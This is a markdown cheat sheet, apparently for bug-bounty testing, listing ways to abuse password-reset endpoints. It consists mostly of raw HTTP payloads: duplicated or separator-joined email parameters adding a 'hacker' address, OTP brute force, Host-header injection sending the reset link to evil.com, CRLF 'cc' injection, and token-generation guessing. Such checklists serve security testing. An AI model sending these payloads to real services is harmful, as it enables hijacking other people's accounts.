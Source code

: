 ## Password Reset Flaws

1. Parameter pollution in reset password
```
POST /reset
[...]
email=victim@mail.com&email=hacker@mail.com
```

2. Bruteforce the OTP code
```
POST /reset
[...]
email=victim@mail.com&code=$123456$
```

3. Host header Injection
```
POST /reset
Host: evil.com
[...]
email=victim@mail.com
```
```
POST /reset
Host: target.com
X-Forwarded-Host: evil.com
[...]
email=victim@mail.com
```
And the victim will receive the reset link with evil.com

4. Using separator in value of the parameter
```
POST /reset
[...]
email=victim@mail.com,hacker@mail.com
```
```
POST /reset
[...]
email=victim@mail.com%20hacker@mail.com
```
```
POST /reset
[...]
email=victim@mail.com|hacker@mail.com
```
```
POST /reset
[...]
email=victim@mail.com%00hacker@mail.com
```

5. No domain in value of the paramter
```
POST /reset
[...]
email=victim
```

6. No TLD in value of the parameter
```
POST /reset
[...]
email=victim@mail
```

7. Using carbon copy
```
POST /reset
[...]
email=victim@mail.com%0a%0dcc:hacker@mail.com
```

8. If there is JSON data in body requests, add comma
```
POST /newaccount
[...]
{“email”:“victim@mail.com”,”hacker@mail.com”,“token”:”xxxxxxxxxx”}
```

9. Find out how the tokens generate
- Generated based on TimeStamp
- Generated based on the ID of the user
- Generated based on the email of the user
- Generated based on the name of the user
> [For Example](https://medium.com/bugbountywriteup/how-i-discovered-an-interesting-account-takeover-flaw-18a7fb1e5359)